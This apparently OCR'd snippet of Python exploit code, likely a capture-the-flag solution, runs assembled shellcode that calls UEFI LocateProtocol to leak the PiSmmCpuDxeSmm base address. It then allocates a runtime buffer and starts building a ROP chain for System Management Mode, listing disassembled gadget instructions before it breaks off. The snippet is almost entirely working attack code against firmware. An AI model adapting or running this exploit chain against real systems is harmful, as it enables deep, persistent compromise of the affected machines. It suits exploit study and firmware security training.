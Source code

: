 ```python
result = execute_shellcode(
    asm(f"""
    // LocateProtocol(test_guid, NULL, &buf)
    lea rcx, [rip + data];
    xor rdx, rdx;
    lea r8, [rip + buf_temp];
    mov rax, {LocateProtocol_addr};
    call rax;

    lea r15, [rip + buf_temp];
    mov r14, [r15];
    mov r13, [r14];

    ret;
data:
    .octa {test_guid};
buf_temp:
""")
)
offset = 0x16210
PiSmmCpuDxeSmm_base = result[13] - offset
lianpwn.lg_suc("PiSmmCpuDxeSmm_base", PiSmmCpuDxeSmm_base)

result = execute_shellcode(
    asm(f"""
    // AllocatePool(EfiRuntimeServicesData, 0x1000, &buffer);
    mov rcx, 6;
    mov rdx, 0x1000;
    mov r8, {tmp_buf};
    mov rax, {AllocatePool_addr};
    call rax;

    mov r15, [{tmp_buf}];
""")
)
smm_buf_addr = result[14]


lianpwn.lg_inf("STEP 2: Construct ROP")
"""
108f0: mov    rbx,QWORD PTR [rcx]
108f3: mov    rsp,QWORD PTR [rcx+0x8]
108f7: mov    rbp,QWORD PTR [rcx+0x10]
108fb: mov    rdi,QWORD PTR [rcx+0x18]
108ff: mov    rsi,QWORD PTR [rcx+0x20]
10903: mov    r12,QWORD PTR [rcx+0x28]
10907: mov    r13,QWORD PTR [rcx+0x30]
1090b: mov    r14,QWORD PTR [rcx+0x38]
1090f: mov    r15,QWORD PTR [rcx+0x40]
10913: ldmxcsr DWORD PTR [rcx+0x50]
10917: movdqu xmm6,XMMWORD PTR [rcx+0x58]
1091c: movdqu xmm7,XMMWORD PTR [rcx+0x68]
10921: movdqu xmm8,XMMWORD PTR [rcx+0x78]
10927: movdqu xmm9,XMMWORD PTR [rcx+0x88]
1092e:
10930: movdqu xmm10,XMMWORD PTR [rcx+0x98]
10937:
10939: movdqu xmm11,XMMWORD PTR [rcx+0xa8]
10940:
10942: movdqu xmm12,XMMWORD PTR [rcx+0xb8]
10949:
1094b: movdqu xmm13,XMMWORD PTR [rcx+0xc8]
10952:
```